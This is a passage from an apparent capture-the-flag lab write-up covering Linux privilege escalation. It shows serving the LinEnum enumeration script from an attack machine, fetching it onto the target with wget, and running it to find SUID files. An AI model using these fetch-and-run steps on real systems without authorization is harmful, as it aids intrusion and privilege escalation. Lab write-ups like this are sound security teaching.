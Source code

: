We don’t. We need to escalate privileges.

## Privilege Escalation <a id="7076"></a>

Let’s transfer the LinEnum script from our attack machine to the target machine.

In the attack machine, start up a server in the same directory that the script resides in.

```text
python -m SimpleHTTPServer 5555
```

In the target machine download the LinEnum script.

```text
cd /tmp
wget http://10.10.14.6:5555/LinEnum.sh
```

Give it execute privileges.

```text
chmod +x LinEnum.sh
```

Run the script.

```text
./LinEnum.sh
```

After sifting through all the output from the script, we notice the following file which has the SUID bit set.

![](../images/max/906/1*fnNmhtGORjnwjtmK1P2FwQ.png)
